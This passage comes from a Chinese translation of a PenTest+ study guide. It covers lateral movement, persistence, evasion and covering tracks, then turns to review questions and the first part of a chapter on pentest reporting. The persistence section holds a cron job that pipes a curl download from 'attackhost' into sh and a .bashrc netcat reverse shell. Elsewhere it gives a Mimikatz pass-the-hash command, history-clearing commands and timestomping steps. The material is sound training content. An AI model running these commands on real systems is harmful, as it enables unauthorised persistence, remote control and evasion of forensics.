**注意** Mimikatz（调试模式）是另一种可用于 PtH 技术的工具，执行以下命令时使用：`sekurlsa::pth /user:<account> /domain:<domain> /ntlm:<ntlm hash>`。微软已发布多个更新以缓解 PtH 能力。安装了 KB2871997 的 Windows 7 及更高版本要求有效的域用户凭据，即 RID 500 管理员哈希。你可以在 SpecterOps 网站上阅读文章“Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy”了解更多信息：[`posts.specterops.io/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy-506c25a7c167`](https://posts.specterops.io/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy-506c25a7c167)

##### RPC/DCOM

MITRE ATT&CK 矩阵将 Microsoft Windows 分布式组件对象模型 (DCOM) 标识为一种有效的横向移动技术，可用于将组件对象模型 (COM) 的功能从本地计算机扩展到其他计算机，使用远程过程调用 (RPC) 技术（ID：T1175）。Windows API 利用 COM 组件在软件对象之间进行交互。DCOM 作为透明的中间件功能运行，使特权用户账户（即管理员）能够访问 COM 对象的属性和方法，例如 Windows Office 应用程序。本质上，通过 DCOM 启动的应用程序可能能够通过网络远程访问，通常通过较高的 TCP 端口范围。Windows 注册表强制执行访问控制列表，以限制与本地和远程服务器 COM 对象交互的权限。类似于从远程用户接管 SSH 代理，Windows 中的特权用户可以与由用户启动的应用程序对象（如 Microsoft Excel）的方法和属性进行交互，该对象通过宏与远程对象通信。启用 Windows 防火墙将默认阻止 DCOM 实例化（即阻止访问那些较高的端口），而监控和检测尝试加载通常不与该应用程序关联的 DLL 和其他模块的 COM 对象，是缓解和检测攻击者利用 Microsoft Office DCOM 进行横向移动的方法。


**注意** 更多阅读请参考，Matt Nelso 撰写了一篇博客文章，介绍如何将 Microsoft 管理控制台快照与 COM 结合用于远程执行：[`enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/`](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)

##### 远程桌面协议

连接到远程 Windows 主机的一种非常流行的方法是远程桌面协议 (RDP)。该服务监听在 3389/tcp 端口，并为远程用户提供图形用户界面 (GUI)，就像他们登录到控制台一样。Windows 域上的用户需要属于“远程桌面用户”组才能使用此服务。否则，仅限具有管理权限的用户。RDP 提供 SSL/TLS 加密以保护客户端/服务器连接的机密性。然而，该服务容易受到中间人 (MiTM) 攻击的弱点影响，因为 RDP 服务器在 `mstlsapi.dll` 库中存储了一个硬编码的 RSA 私钥。有权访问该文件的本地用户可以检索密钥并将其用于攻击（Nessus 插件 ID：18405）。RDP 可以通过强制网络级别身份验证 (NLA) 来配置以缓解此漏洞。此设置强制客户端在服务器为该用户创建会话之前提供用户凭据进行身份验证。NLA 依赖于凭据安全支持提供程序 (CredSSP) 协议；因此，如果 RDP 客户端不支持 NLA 或未提供必要的凭据，将不允许登录到远程主机。


**提示** 与 RDP 类似，Apple Remote Desktop 是管理网络上 Mac 计算机的有效方式。Apple Remote Desktop 应用程序监听在 3283/tcp 端口。你可以在 [`www.apple.com/remotedesktop`](https://www.apple.com/remotedesktop) 了解更多关于该服务的信息。

##### WinRM

Windows 远程管理 (WinRM) 协议是 PowerShell 的一项功能，提供原生的 Windows 远程命令执行。你可以通过以管理员权限运行的 PowerShell 控制台启用 PowerShell 远程处理，并将所有远程主机设置为受信任。一旦 WinRM 更新为远程管理模式，将在 HTTP 端口 5985/tcp 上启动一个监听器。当你对该服务进行端口扫描时，`nmap` 将识别该服务并打印横幅信息。


**提示** 在生产环境中，你可能不希望允许所有远程主机为受信任。你将希望将其锁定为仅限网络上的受信任主机。


使用 PowerShell v2 或更高版本，你可以使用 `Invoke-Command` cmdlet 对远程系统执行命令，或使用 `Enter-PsSession` 获取与另一台运行 WinRM 的远程主机的交互式 PowerShell 控制台。在渗透测试过程中，你可以利用网络上主机之间建立的信任关系，同时使用原生的 Windows 操作系统功能和方法，这些功能和方法不太可能在组织安全事件监控系统中引起警报。

#### 维持持久化

我们已经讨论了使用 Shell 建立后门，但这些并不总是持久的。一旦 Shell 崩溃或用户注销，连接就会消失。如果你在测试期间泄露密码的用户更改了密码，你也将失去访问权限。当然，如果你创建了自己的用户，最后这种情况可能不是大问题。但我们要认同的是，在渗透测试完成前失去访问权限，只能发现自己无法重现利用路径以回到原处，这将是糟糕的。因此，你可能想要采取一些措施来建立持久访问。实现这一点的方式将根据目标操作系统而异，因此我们将分别介绍。


**注意** 为了在放置持久化后门时避免被检测，创建特洛伊木马可能很有用。特洛伊木马是一种伪装成更合法事物的恶意载荷（例如远程 Shell）。一个技巧是使用现有的合法应用程序并将恶意软件注入其中，然后在其原始持久化位置使用相同的文件名和应用程序。

##### Windows

Windows 中持久化的两种最知名方法是计划任务和启动位置。计划任务在 Windows 任务计划程序中配置。其命令行工具是 `schtasks`。如果我们想设置一个计划任务来运行我们的无文件 PowerShell，我们可以执行类似以下的操作，使其在每次有新用户登录系统时运行：


###### 实现持久化的更隐蔽方法

一种更隐蔽的实现方法是使用 **Squiblydoo 攻击**，该攻击利用外观更无害的 Windows 原生二进制文件来拉取托管在 Web 上的恶意软件，这次采用的是 Windows 脚本组件（`.sct`）格式：


如前所述，计划任务并不是 Windows 中唯一的持久化机制。Windows 会在许多位置查找以确定启动时要启动的内容。在某些情况下，它使用启动文件夹或注册表项。在其他情况下，由 Windows 自动启动的应用程序可能会在启动时查找特定内容。以下是可以注入 Shell 以实现持久化的几个 Windows 启动位置：

###### 自动启动文件夹

- `%appdata%\Microsoft\Windows\Start Menu\Programs\Startup`
- `C:\Users\USERNAME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
- `%programdata%\Microsoft\Windows\Start Menu\Programs\Startup`
- `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

###### 注册表

- `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnceEx`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce`
- `HKLM\System\CurrentControlSet\Services`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunServices`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce`
- `HKLM\SOFTWARE\Microsoft\Active Setup\Installed Components`
- `HKLM\SOFTWARE\Wow6432Node\Microsoft\Active Setup\Installed Components`
- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\SharedTaskScheduler`
- `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Explorer\SharedTaskScheduler`

##### Linux

在 Linux 中，计划任务由 `crontab` 处理。此外，程序可能会作为用户配置文件设置的一部分或在系统配置的守护进程中随启动启动。每种方法的方式略有不同。在可能的情况下，我们将专注于无文件方式实现此目的，但你始终可以上传载荷并引用它。

###### Crontab

让我们从使用 `crontab` 设置反向 Shell 开始。`crontab` 中计划的任务可以是用户特定的，也可以在整个系统范围内运行。编辑 `crontab` 的权限通常受到限制。要以特定用户的 `crontab` 为目标，你需要在 `crontab` 命令后提供其用户名。默认情况下，它将尝试操作系统 `crontab`。

要列出现有条目，请使用命令 `crontab -l`。编辑条目的一种方法是使用 `crontab -e`。在计划之前，你首先想知道的是调度语法如何工作。`Cron` 依次接受分钟、小时、月份中的日期、月份和星期中的日期作为调度参数。它使用星号表示“任意”。因此，以下语法告诉 `cron` 每五分钟执行一次命令，每天如此。我们将设置的命令告诉 `curl` 不安全地（`-k`）获取网页并将输出发送到 Shell 以执行。这在一定程度上类似于我们在 Windows 中使用计划任务来无文件运行事物的方式。

```
*/5 * * * * curl -k http://attackhost/evil-file.txt |sh
```

###### 用户配置文件

用户可以配置设置以在登录时修改其环境和 Shell。这些配置文件设置也可能被劫持用于持久化。在此示例中，使用 Bash Shell 的用户有一个 `.bashrc` 文件。编辑该文件以添加以下行将在用户每次登录并加载其 Shell 环境时在端口 8675 上创建一个反向 Shell 以供访问。

```
nc -e /bin/bash attackhost 8675 2>/dev/null &
```

###### 守护进程

如果你拥有对机器的 root 访问权限，你可以创建一个服务，在系统每次启动时运行以建立持久化。如何执行此操作在一定程度上取决于系统是使用 `systemv`、`systemd` 还是其他（如 `upstart`）作为 init 系统。对于此示例，我们将专注于 `systemd`。

在 `/etc/systemd/system` 下，你可以创建 `pentestpersist.service` 服务描述符文件。内容可能如下所示：


然后，你可以通过在命令提示符下运行 `systemctl enable pentestpersist` 将其配置为在系统每次启动时运行。

############### 清理痕迹

MITRE ATT&CK 矩阵将清理痕迹定义为防御规避，它由攻击者可能用来帮助避免通过网络监控被检测到的方法和技术组成。以下是与渗透测试相关的 MITRE ATT&CK 矩阵中的防御规避技术：

- 清除命令历史（ID: T1146）
- 时间戳篡改（ID: T1099）
- 文件删除（ID: T1107）

##### 清除命令历史

Linux 和 Mac 操作系统都会记录用户在终端中输入的命令。BASH Shell 会将按键记录在 `$HOME/.bash_history` 文件中。在渗透测试期间，一旦你获得对 UNIX/Linux/Mac 操作系统的访问权限，最佳实践是取消设置历史文件，以防止用户/管理员知道你执行了什么命令，以及避免将你的脏/恶意命令与用户的历史记录混在一起。取消设置历史文件非常简单，如下所示：

- `unset HISTFILE` 临时历史不会写入磁盘
- `export HISTFILE=0` 临时历史不会写入磁盘
- `history -c` 清除临时历史文件
- `set +o history` 防止命令记录到临时历史

管理员可以通过将变量设置为只读来对抗防御规避攻击，以帮助保留历史文件的内容以供取证目的。

############### 时间戳篡改

一种修改文件时间戳（修改、访问、创建和更改时间）的技术称为时间戳篡改。攻击者可以针对已修改的文件和目录执行此技术。Meterpreter Shell 中的 `timestomp` 功能可以是限制在文件系统上读写数据的数字足迹的好方法。要查看选项列表，可以使用以下语法：

```
meterpreter> timestomp ?
```

选项：

- `-v` 显示文件的 UTC MACE 值
- `-m` 设置文件的“最后写入”时间
- `-a` 设置文件的“最后访问”时间
- `-c` 设置文件的“创建”时间

你可以查看更改前后的日期时间戳样子，然后将其改回更改前的样子。假设你想更改用户登录脚本的内容，甚至是指向管理员主目录中名为 `script.ps1` 的 PowerShell 文件的计划任务，并向文件添加一些任意代码以协助持久化。修改文件后，你可以使用 `timestomp` 将文件改回原始值。这样你的修改在查看日期时间戳时就不会触发任何危险信号。


假设你在成功通过客户的 Web 服务器利用 MS SQL 注入漏洞后，位于一台 Windows 数据库服务器上。你想从 `www` 和 `db` 日志文件中移除你的恶意行为，并将它们的时间戳篡改为攻击前的一段时间。


在删除日志中的恶意条目后，你可以使用 PowerShell 更改每个日志文件的 `LastWriteTime`、`LastAccessTime` 和 `CreationTime` 文件属性。为此，你可以使用 `Get-Item` cmdlet 标识要修改的项目（文件），定义要设置文件的日期（格式为 MM/DD/YYYY HH:MM am/pm），并将新时间戳应用于每个文件属性。这有助于隐藏你的进入，并让你能够继续测试目标，而不会过多引起注意。


**注意** 如果您修改了客户正在使用完整性检查软件（如 Tripwire）监控的文件内容，该更改仍会被识别，并很可能触发警报。完整性监控软件会将文件上次检查时的加密哈希值进行比较。这些工具可设置为通过计划任务在不同时间运行。更改最后写入/访问/创建时间与创建目标文件的加密哈希值是有区别的。

在 Linux 中，您还可以通过对文件名发出 `touch -t YYYYMMDDhhmm` 命令（使用您所需的时间和日期）来更改文件的时间戳。

###### 文件删除

恶意软件、工具或其他放置或创建在系统上的非原生文件可能会增加攻击者的数字足迹。在利用漏洞和从框架内执行代码时，Metasploit 是避免这一障碍的好方法，因为它具有清理工具和驻留内存的自动机制。攻击者还可能清理 Linux/UNIX/Mac 操作系统上 `/var/log/*` 的内容，或擦除 Microsoft 系统上的事件查看器数据库。为缓解此问题，组织可以利用日志记录服务器（即 SYSLOG）将与安全相关的消息和信息发送到中央主机。如果日志事件存储在攻击者无法访问的另一个系统或网络部分上，这将使攻击者掩盖踪迹的工作更难。

### 章节回顾

在本章中，我们涵盖了大量关于后渗透技术的内容，包括枚举、持久化、数据渗出、逃避检测、横向移动技术和权限提升方法。我们首先讨论了获取态势感知，以识别攻击机会、确定攻击策略的优先级，并在评估期间更高效地工作。然后我们讨论了如何利用这些信息进一步获取网络或主机内的访问权限，以及如何隐蔽地将数据从环境中导出。我们讨论了渗透测试人员可用于在环境中从系统到系统、从网络到网络移动的技术，包括如何利用本地工具和在执行及持久化中使用无文件恶意软件。最后，我们讨论了如何在渗透测试期间进一步掩盖踪迹。

################ 问题

**1.** 后渗透阶段的一个重要步骤是获取态势感知，以收集有关主机和内部网络的重要知识。以下哪些来自 MITRE ATT&CK 框架的技术被确定为“发现”战术？（选择所有适用项。）

**A.** 枚举本地或共享文件系统上的文件和目录。

**B.** 搜索本地或域级别的组和权限设置。

**C.** 渗透利用后对文件和目录进行时间戳篡改。

**D.** 使用操作系统原生协议（如 SSH 或 FTP）传输文件。

**2.** 在渗透测试期间，您成功入侵了客户网络中一台 Linux 主机的用户级访问权限。该用户的默认 Shell 是 Bash。您可以使用哪种命令语法来暂停终端会话的命令记录？（选择所有适用项。）

**A.** `unset HIST`

**B.** `unset HISTFILE`

**C.** `set +o history`

**D.** `export HIST=0`

**3.** 您发现刚入侵的用户账户“user1”可能被允许使用 sudo 在系统上执行特权命令。在您暂停终端窗口的命令记录后，执行 `sudo -l` 命令且未提示输入密码。令您惊讶的是，该账户可以在操作系统上执行所有命令，且仍未提示输入密码。`/etc/sudoers` 文件中的哪个设置允许用户在无需密码的情况下执行命令？

**A.** `%sudo ALL=(ALL:ALL) ALL`

**B.** `%sudo ALL=(ALL:ALL) NOPASSWD:ALL`

**C.** `user1 ALL=(ALL:ALL) ALL`

**D.** `user ALL=(ALL:ALL) NOPASSWD:ALL`

**4.** 组策略首选项 (GPP) 引入于 Windows 2008 Server，允许域管理员创建域策略以自动化繁琐任务，例如更改主机操作系统上的本地管理员账户密码。每个策略都包含一个嵌入在策略中的加密密码，并且每个策略都存储在 SYSVOL 中，任何域成员用户均可访问。在渗透测试期间，您成功使用域上的用户级权限挂载了 SYSVOL 卷。域服务器是 Windows 2012 服务器。哪个文件将包含 cPassword 条目？

**A.** Group.xml

**B.** Users.xml

**C.** Groups.xml

**D.** Policy.xml

**5.** \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_ 是唯一的，用于标识 Windows 服务的每个实例。在 Windows 中，Kerberos 要求 \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_ 至少与一个服务登录账户（即运行该服务的账户）关联。

**A.** 主机名

**B.** 域名

**C.** 唯一标识符

**D.** 服务主体名称

**6.** 在渗透测试期间，您使用 `wmic` 命令识别未加引号的服务路径。您在 `C:\Program Files (x86)\data\shared files\vulnerable.exe` 处找到一条路径，并使用 `accesschk.exe` 发现您在“data”目录中拥有写入权限。为了在服务下次执行时提升权限，您需要放置一个将在服务路径中执行的可执行文件。您应该创建的可执行文件的正确名称是什么？

**A.** shared.exe

**B.** files.exe

**C.** shared\_files.exe

**D.** Program.exe

**7.** 在渗透测试期间，您在用户的主目录中发现了一个 SSH 私钥 (`id_rsa`)，并怀疑该密钥可用于远程登录到其他 Linux 主机。然而，在尝试使用该密钥之前，您想将其与 `authorized_keys` 文件的内容进行比较，以确保它与文件中存储的公钥之一匹配。您将运行哪个命令从私钥生成公钥？

**A.** `ssh-keygen -y -f id_rsa`

**B.** `ssh-keygen -t rsa -b 2048`

**C.** `diff id_rsa.pub id_rsa`

**D.** `openssl rsa -in id_rsa | cat id_rsa.pub`

#### 答案

**1.** **A, B.** 枚举本地或共享文件系统上的文件和目录（文件和目录发现：T1083）以及搜索本地或域级别的组和权限设置（权限组发现：T1069）是两种与获取态势感知相关的技术。

**2.** **B, C.** `unset HISTFILE` 技术将允许临时历史记录，但会阻止命令历史被写入 `$HOME/.bash_history`。`set +o history` 将阻止临时命令历史，并随后阻止任何命令历史被写入磁盘。

**3.** **B.** 账户“user1”很可能在名为“sudo”的 sudoers 组中。`NOPASSWD:ALL` 选项将允许在操作系统上执行任何命令，而无需提示输入密码。使用 `groups` 或 `id -a` 命令语法，您将能够看到用户属于哪些组。在 `/etc/sudoers` 文件中，可以为组或用户配置本地操作系统上的特定 sudo 权限。

**4.** **C.** `groups.xml` 文件将包含加密的 cPassword 条目。AES 256 位密钥已由 Microsoft 在线披露，这允许解密 cPassword 条目，从而泄露敏感密码。


**5.** **D.** 服务主体名称 (SPN) 是唯一的，用于标识 Windows 服务的每个实例。在 Windows 中，Kerberos 要求 SPN 至少与一个服务登录账户相关联。

**6.** **A.** 服务启动时，将遵循执行路径 `C:\Program Files (x86)\data\shared files\vulnerable.exe` 来运行该可执行文件。由于注册表中的路径未加引号，它会首先尝试加载 `C:\Program Files (x86)\data\shared.exe`，因为目录“shared files”中间有一个空格。

**7.** **A.** `ssh-keygen` 命令用于生成密钥。要比较私钥和公钥的值，可以使用以下语法从私钥生成公钥：`ssh-keygen -y -f <private key>`。然后，你可以读取 authorized_keys 文件的内容，并比较两者的差异（如果有）。

## **第 10 章**

#### 交付后活动

在本章中，你将学习

- 书面渗透测试报告的重要组成部分
- 分析发现以便提出适当的建议
- 探索交付后活动

渗透测试报告是客户的重要工件。其中包含的数据可让高级管理层就如何确定其网络中安全缺陷的优先级和缓解措施做出明智的风险决策。渗透测试报告提供了有形证据，描绘了组织资产的安全状况以及已安装的安全对抗措施针对适用攻击向量的防护有效性。

归根结底，渗透测试人员对最终报告中的所有内容负责。对某些人来说，撰写报告可能不如测试和利用漏洞那么有趣，但报告同等重要，并能帮助客户改进防御。报告中未涉及的漏洞可能会被忽视，使客户容易遭受攻击。在本章中，我们将讨论撰写和处理渗透测试报告及测试数据的最佳实践、分析发现和提出建议，以及执行报告交付后的活动。

#### 渗透测试报告的剖析

恭喜！你已完成了规划渗透测试的艰巨过程：推动所有利益相关者达成共识、完成所有研究和准备工作，并签署所有合同。你花费数小时盯着屏幕，经历了挫败、困惑、难以置信，或许还有一丝成就感。希望你一路做好了笔记，也许还享受过一两次“拿到 root 权限”的喜悦。现在到了鲜有渗透测试人员期待的环节：报告。然而，报告可以说是交付过程中最重要的部分之一。其内容证明了渗透测试的合理性。报告以书面形式传达结果，包含所有专家分析，并描述和提供证据，证明为履行协议条款而开展的活动。因此，收集所有笔记和适当的测试工件来支撑你的叙述。是时候分析证据并撰写报告了。

报告的格式和内容、受众及安全性是你接下来需要考虑的目标。报告应根据测试类型和交付目标组织相关细节。例如，法规要求可能规定报告须遵循特定格式或包含特定信息。此外，你需要为不同受众构建计划呈现的信息框架。了解每个受众的期望可避免沟通失误，并提高交付物的效率。最后，你需要确保在交付过程中，你对报告和支持证据的处理符合安全意识。我们将在本节讨论这些概念。

################ 报告受众

渗透测试人员在准备交付时应牢记的最重要考量之一是了解你的受众。数据消费者为履行其在流程中的职责需要不同的信息，且可能对安全有不同的理解。让我们谈谈几个报告消费者的例子，以及他们各自可能从渗透测试交付物中需要的信息类型。

###### 高管层 (C-Suite)

高管需要足够的信息以就安全策略和支出做出业务决策。可以合理假设，大多数高管不想要像直接负责实施的利益相关者那样等级的技术细节。相反，提供汇总数据可能更为合适，这些数据描述对业务的总体影响、发现模式的战略分析，以及有助于确定当前安全状况的指标。采用“结论先行” (BLUF) 方法，使用简洁的语言用通俗易懂的术语描述高层细节。大多数报告都应包含一份为该受众量身定制的执行摘要。我们将在下一节进一步讨论。

###### 技术人员

技术受众可能包括系统管理员、安全控制负责人和应急响应人员等。这些人通常需要更全面、更深入地了解渗透测试细节。为了采取行动预防或检测攻击，他们需要足够的攻击原理细节，以便复现攻击以验证缓解措施是否成功，或了解哪些缓解措施适合其特定环境。这些受众通常将技术语言和概念作为其预期工作职责的一部分来使用和理解。准备好在有疑问时深入探讨工具、漏洞利用代码、系统或战术、技术与过程 (TTP) 的内部工作细节。在报告中，攻击叙述、发现与分析，甚至附录数据可能是该群体重点关注的领域。

###### 开发人员

开发人员也是技术人员，但因其关注点的专业性，在我们对渗透测试受众的审视中获得了特殊地位。开发人员负责代码的创建和维护，但不一定负责系统或网络的实施。系统管理员可能没有背景知识去理解源代码弱点的内部原理，而开发人员可能对操作系统补丁或网络分段弱点的影响不太感兴趣。开发人员最常参与应用程序测试，或处理暴露整个软件开发生命周期流程弱点的发现。因此，需要与开发人员共享的信息类型，以及他们可能要求的澄清类型，往往与其他技术受众的要求不同。

###### 第三方利益相关者

第三方利益相关者通常是与被测试客户有业务往来的单位。依赖客户进行数据处理的其他企业和网络保险理赔处理商是可能的第三方利益相关者的两个例子。与负责通过改变被测组织安全响应来应对测试结果的技术人员和业务领导者不同，该受众可能不需要访问完整的渗透测试报告。相反，他们关注测试结果，作为断言目标组织安全性正在接受测试的审计流程的一部分。该受众可能只需要查看一份证明信，而无需查看报告的任何部分。

##### 报告内容


报告可以使用文字处理软件（如 Microsoft Word）编写，也可以使用自定义工具和 Web 界面编写。不过，报告通常遵循通用的最佳实践。例如，您可能需要包含测试人员的姓名和联系信息，以便交付后有疑问时可以联系。您可能还想在报告开头包含目录 (TOC)。如果您有带有标题的图片（截图）（例如，“截图 1：成功 – 应用程序的特权访问”），也可以在目录中插入图表目录。这些表格有助于组织报告，并允许读者跳转到他们最感兴趣的章节。在本节中，我们将结合多个来源提供的报告编写指南，为您介绍 CompTIA PenTest+ 考试所涉及的这些概念。

报告要求可能因所进行的评估类型而异。法规、行业标准和组织要求都会影响报告内容。但大多数报告都将包含通用的渗透测试报告组件，例如执行摘要、发现与建议部分，以及详述范围和方法论的部分。在深入探讨不同的报告章节之前，让我们先花点时间谈谈报告通常涵盖的内容。

由于渗透测试规划文档并不总是包含在报告中，且报告读者并不总是参与测试规划的利益相关者，报告通常会总结其中一些信息，以为阅读报告的人提供背景。报告应包含背景信息，例如测试计划、范围、使用的工具、技术和方法论，以及对测试施加的任何限制，以便理解结果。同样，一些最佳实践也适用于证据呈现和报告语言。

请深思熟虑地选择截图和证据。不要包含超出证明结果所需的信息，但要确保包含足够的细节，以便报告读者能够理解他们所看到的内容。确保证据清晰可读，并在必要时对图形进行注释。例如，如果您截取了终端窗口的屏幕截图来说明如何在客户的 LDAP 服务器上提升权限，您其实不需要在截图中包含滚动条和菜单栏。您甚至可能只需包含屏幕内容的一部分。您可能希望为受众遮盖或标注特定的关注元素。考虑您的证据是否包含敏感信息（如密码哈希值），您能否在保护数据的同时，通过遮盖或混淆部分数据来证明您能够访问它？您可以高亮显示表明包含密码或管理员账户的字段名，同时遮挡实际密码。无论采用何种方法，您都需要保持语气和解释的清晰。

渗透测试交付物的语气应始终专业且客观。避免使用指责性语言。例如，“你们的系统管理员很糟糕，因为他们喜欢使用容易猜测的密码”就不是一个好的专业陈述。您的工作不是指责或炫耀您如何获得了域管理员权限；您的工作是提供相关细节，帮助客户改善其安全态势。教育您的读者！始终保持正式和非人称化，并清晰地措辞每个技术概念，提供相关细节以支持结论，从而传达渗透测试交付物。现在，让我们谈谈渗透测试报告的章节。


**NOTE**   Offensive-Security 发布了一份示例渗透测试报告，如果您没见过此类报告，可以参考一下以了解其大致样子。请记住，报告在内容和呈现方式上各不相同：[`www.offensive-security.com/reports/sample-penetration-testing-report.pdf`](https://www.offensive-security.com/reports/sample-penetration-testing-report.pdf)

###### 执行摘要

执行摘要是报告的 BLUF（Bottom Line Up Front，核心结论前置）摘要。通常为一到两页，快速总结报告中的关键细节，包括测试时间范围的简要背景、采取的步骤、测试目标、结果的最终摘要，以及建议和分析的重点。执行摘要不应涵盖报告后续部分未详细讨论的信息。相反，它应包含传达关键点所需的最低限度高层细节，并能独立于报告其余部分而存在。重点关注总体目标达成情况、系统性问题以及对业务的影响。避免包含无关细节（“the kitchen sink”）。执行摘要应涉及建议的修复路线图、关键指标的可视化呈现以及结果的战略分析。此部分应尽可能避免行话，并使用清晰、简洁、非技术受众也能轻松理解的语言呈现细节。


**EXAM TIP**   渗透测试执行标准 (PTES) 包含一个执行摘要示例：[`pentest-standard.readthedocs.io/en/latest/reporting.html#the-executive-summary`](https://pentest-standard.readthedocs.io/en/latest/reporting.html#the-executive-summary)

###### 范围细节

范围可在工作说明书 (SOW) 中找到，但也应在渗透测试报告中定义。报告应涵盖测试期间网络和系统的测试范围，例如 IP 地址、主机名、应用程序名称和应用程序编程接口 (API) 等。应清晰阐述测试边界和网络段，以回答测试期间实际测试了什么的所有问题。网络架构图可以有效地描述测试边界。如果评估中包含或排除了任何关键系统，也应提供该信息。

范围细节还应包含限制声明（如适用）。渗透测试可能存在某些限制或约束，控制测试可进行的时间、带宽限制、遗留系统的特殊测试要求、测试持续时间，或其他可能增加渗透测试工作量的事项。施加时间限制（尤其是在不同时区操作时）可能要求渗透测试人员改变日常工作以适应客户的限制。任何阻止渗透测试团队与网络遗留部分交互的因素都是报告中应包含的有价值信息。这种详细程度为执行期间的场景提供了前提，并说明了该工作是否模拟了“真实的”网络攻击。

###### 方法论与攻击叙述

本节涵盖工作说明书 (SOW) 中确定的渗透测试方法论。这阐明了使用了哪些攻击类型以及进行了哪种测试。每种方法都可以有一项或多项活动可供测试，以模拟威胁行为者可能采取的造成组织危害的方法。起草渗透测试报告时，您应确保解决商定测试的每个目标和方法，并确保您提供的信息足以帮助客户实现渗透测试的总体目标，无论您选择使用哪种报告格式。


####### 测试叙述

测试叙述可以通过讲述渗透测试的故事来提供额外的背景信息。解释攻击之间的逻辑步骤可以帮助防御者确定优先进行哪些安全更改以破坏攻击链。它还可以帮助防御者更好地了解导致攻击的弱点的性质。如果您未能达成目标，它可以作为所付出努力的证明，并对防御措施给予积极评价。PCI《渗透测试指南》文档还建议测试叙述记录测试期间遇到的任何问题，例如由于主动保护系统（如防火墙、入侵防御系统、网络访问控制 \[NAC\] 等）而遇到或观察到的任何类型的干扰。

假设在一次内部渗透测试中，您的目标是在客户网络上获取域管理员访问权限；然而，在分配给渗透测试的时间内，您只能在 10% 的范围内目标上获取本地管理员访问权限。尽管您未达到目标，但用于获取本地管理员访问权限的技术对客户来说可能值得注意，因为可以使用您的叙述应用纠正措施，以修复直到您成功获取本地管理员访问权限的那一点。以下是不同类型报告的方法论和叙述信息的进一步示例。

表 10-1 建议了网络测试信息收集的描述示例。


**表 10-1** 网络信息收集

根据评估类型，您可能会收到架构图、Web 服务和 API 描述等。表 10-2 建议了协助执行 Web 应用程序/API 信息收集测试的活动，包括表明该活动已执行的示例结果。


**表 10-2** Web 应用程序/API 测试

表 10-3 建议了协助执行移动平台和应用程序信息收集测试的活动，包括示例结果。


**表 10-3** 移动平台和应用程序测试

社会工程学测试可能涉及使用 OSINT 进行初始发现。叙述可能会解释测试人员执行了互联网搜索，以识别负责系统管理的感兴趣人员。例如：

渗透测试团队使用 `theHarvester` 工具从公开可用资源中收集电子邮件地址。此活动的扫描数据位于附录 A：OSINT。从扫描中获得的以下值得注意的电子邮件地址：

- `user1@example.com`
- `user2@example.com`
- `dev1@example.com`
- `admin@example.com`

######## 渗透测试叙述：缩短示例

这是一个缩短的攻击叙述示例。请注意，为了简洁起见，此示例中不包含目标详细信息。叙述可能会引用存储在附录中的其他数据，或根据需要包含具体细节或攻击图。

11 月 30 日，测试人员发起了一次针对十名用户的定向网络钓鱼活动。钓鱼邮件包含一个指向暂存网站（`https://fakeurl/fakepage`）的链接，该网站包含一个 JavaScript 漏洞利用（`CVE-2014-6332`），可启动基于 VBScript 和 PowerShell 的载荷。四名用户点击了恶意网站，导致载荷下载并执行存根程序。存根程序将两个可执行文件（`pwn.exe` 和 `pwn2.exe`）写入磁盘。可执行文件在系统上执行自动发现，并为我们的基于 HTTPS 的 C2 信标创建了持久计划任务。该漏洞利用在四个系统中的两个上成功完成，通过具有 `SYSTEM` 级权限的远程 Shell 授予访问权限。测试人员随后能够从内存中提取凭据，包括明文密码。在系统 `4286-D` 上，用户 `workst-admin` 已登录。测试人员能够确认，基于域组和网络系统发现，该账户对环境中的其他 23 个系统具有管理员访问权限。测试人员能够使用此凭据通过远程执行对系统 `SRV-269` 执行横向移动，使用 WMI 远程创建计划任务以下载并运行暂存的 C2 信标，使用以下命令……

###### 发现与修复

报告的这一部分将包含测试发现的有序列表。这些是测试工作的技术详细结果。除了附录外，这通常是报告中最长的部分。组织发现的技术因渗透测试的类型和测试人员而异。通常最佳实践是按严重程度对发现进行排序，此外还可使用任何其他标准。

其他一些标准包括按测试环境、测试方法或发现类型组织发现。首先列出最高严重程度的发现可以建议修复优先级，并将最严重的问题摆在前面供讨论。如果渗透测试的范围包括多个环境，例如多个应用程序、设备或物理站点，这些可能会被归入同一报告，并按环境组织发现。同样，一些咨询公司可能将物理渗透测试与无线或网络测试一起确定范围，但选择在单个报告中提供结果。在这种情况下，发现可能按导致发现的测试类型排序。发现可能被分离为战术发现（导致成功攻击的特定系统弱点）或战略发现（由更广泛的控制实施或其他安全方法中的弱点引起的问题）。

###### 指标与度量

相关指标将根据渗透测试的性质和目标以及客户的需求而有所不同。您包含哪些指标以及将它们放在哪里，将取决于您想要传达的内容。指标应提供对问题的可见性，为理解计划或报告提供通用语言，并利用可衡量的信息实现规划和决策。通常有两种指标：报告级指标和计划级指标。

报告级度量适用于该报告范围内的报告结果。发现数量或受影响目标数量、按类型或严重程度划分的发现数量、总体影响评分或其他目标达成指标可能都很有用，具体取决于测试目标。发现类型可能基于战略观察，例如环境中系统配置的不一致、处理敏感数据的安全最佳实践应用错误，或身份验证和授权问题。影响评分可能适用于关键数据类型的机密性、完整性或可用性，并可表示为测试的总体度量或按单个发现。目标达成度量可能包括尝试的网络钓鱼邮件数量与被点击数量与导致系统妥协数量的对比，例如在社会工程学项目中。

